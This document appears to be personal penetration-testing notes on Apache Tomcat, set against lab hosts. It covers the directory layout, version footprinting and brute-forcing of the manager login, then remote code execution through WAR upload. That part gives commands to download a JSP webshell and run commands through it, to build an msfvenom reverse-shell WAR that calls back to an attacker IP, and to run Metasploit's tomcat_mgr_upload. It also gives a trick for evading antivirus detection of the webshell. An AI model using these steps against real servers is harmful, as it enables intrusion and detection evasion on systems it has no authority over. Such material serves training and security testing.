


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Tomcat

## 101

Apache Tomcat is an **open-source Java servlet container that hosts Java-based web applications**. It is primarily used internally within organizations rather than as a public-facing web server. A typical folder structure of a Tomcat installation is as follows:

```shell
├── bin # stores scripts and bins needed to start and run Tomcat
├── conf # config files
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml # user creds and roles, IMPORTANT FILE!!!
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib # JAR files needed for proper functioning
├── logs # temp log files
├── temp # temp log files
├── webapps # default webroot, hosts all apps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work # acts as a cache during runtime
    └── Catalina
        └── localhost
```

The `tomcat-users.xml` file is used to control access to the `/manager` and `/host-manager` admin pages:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<SNIP>
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only

  The users below are wrapped in a comment and are therefore ignored. If you
  wish to configure one or more of these users for use with the manager web
  application, do not forget to remove the <!.. ..> that surrounds them. You
  will also need to set the passwords to something appropriate.
-->
 <SNIP>

!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />

</tomcat-users>
```

The `webapps` file structure is as follows:

```bash
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp # stores Jakarta Server Pages (like PHP files for Apache)
    |   └── admin.jsp
    └── web.xml # deployment descriptor, MOST IMPORTANT FILE!!!
    └── lib
    |    └── jdbc_drivers.jar
    └── classes # stores compiled classes
        └── AdminServlet.class 
```

The `web.xml` file stores info about the routes used by the app and the classes handling these routes:


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>   
```


The `web.xml` configuration above defines a new servlet named `AdminServlet` that is mapped to the class `com.inlanefreight.api.AdminServlet`. Java uses the dot notation to create package names, meaning the path on disk for the class defined above would be: `classes/com/inlanefreight/api/AdminServlet.class`. Next, a new servlet mapping is created to map requests to `/admin` with `AdminServlet`. This configuration will send any request received for `/admin` to the `AdminServlet.class` class for processing.

## Footprinting

Tomcat servers can often be identified by the `Server` header in HTTP responses. If a reverse proxy is in place, accessing an invalid URL may still reveal Tomcat’s version.

<figure><figcaption></figcaption></figure>

Another common method to detect Tomcat and its version is by visiting the default `/docs` page, which is usually left accessible unless explicitly removed by administrators.


```bash
$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 

<html lang="en"><head><META http-equiv="Content-Type" content="text/html; charset=UTF-8"><link href="./images/docs-stylesheet.css" rel="stylesheet" type="text/css"><title>Apache Tomcat 9 (9.0.30) - Documentation Index</title><meta name="author" 
```


## BFA

A Brute Force attack can be performed using MSF's [tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) module:

```bash
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > show actions
msf auxiliary(tomcat_mgr_login) > set ACTION < action-name >
msf auxiliary(tomcat_mgr_login) > show options
msf auxiliary(tomcat_mgr_login) > run
```

## RCE

If we can access the `/manager` or `/host-manager` endpoint, we can likely achieve RCE on the Tomcat server.

### Tomcat Manager - WAR File Upload

The GUI interface for Tomcat is at `/manager/html` by default and it's accessible only by users assigned the `manager-gui` role. This can be used to upload a packaged Tomcat app (`.war`) and compromise the application:


A **Web Application Archive (WAR)** is used to quickly deploy web apps and backup storage.




A WAR file can be created using `zip`. A [JSP webshell](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive:


```shell
# Download a webshell
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
# Archive the webshell along with the WAR file
$ zip -r backup.war cmd.jsp 

  adding: cmd.jsp (deflated 81%)
```


Click on `Browse` > select the archive > `Deploy`:



If we click on `backup`, we will get redirected to `http://web01.inlanefreight.local:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.inlanefreight.local:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server:

```shell
$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```


**Clean Up**: go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application. This will remove the uploaded WAR archive and the directory associated with the application.


We could also use `msfvenom` to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.:


```shell
$ sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```


> _The_ [_multi/http/tomcat\_mgr\_upload_](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) _Metasploit module can be used to automate the process shown above._

[This](https://github.com/SecurityRiskAdvisors/cmd.jsp) JSP web shell is very lightweight (under 1kb) and utilizes a [Bookmarklet](https://www.freecodecamp.org/news/what-are-bookmarklets/) or browser bookmark to execute the JavaScript needed for the functionality of the web shell and user interface. Without it, browsing to an uploaded `cmd.jsp` would render nothing. This is an excellent option to minimize our footprint and possibly evade detections for standard JSP web shells (though the JSP code may need to be modified a bit). The web shell as is only gets detected by 2/58 anti-virus vendors.

A simple change such as changing:

```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```

to:

```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```

results in 0/58 security vendors flagging the `cmd.jsp` file as malicious at the time of writing.







adsa

```bash
> use multi/http/tomcat_mgr_upload
> exploit(multi/http/tomcat_mgr_upload) > set VHOST web01.inlanefreight.local
> exploit(multi/http/tomcat_mgr_upload) > set LHOST tun0
> exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.129.201.58
> exploit(multi/http/tomcat_mgr_upload) > set HTTPPASSWORD root
> exploit(multi/http/tomcat_mgr_upload) > set HTTPUSERNAME tomcat
> exploit(multi/http/tomcat_mgr_upload) > set RPORT 8180
> exploit(multi/http/tomcat_mgr_upload) > run
```


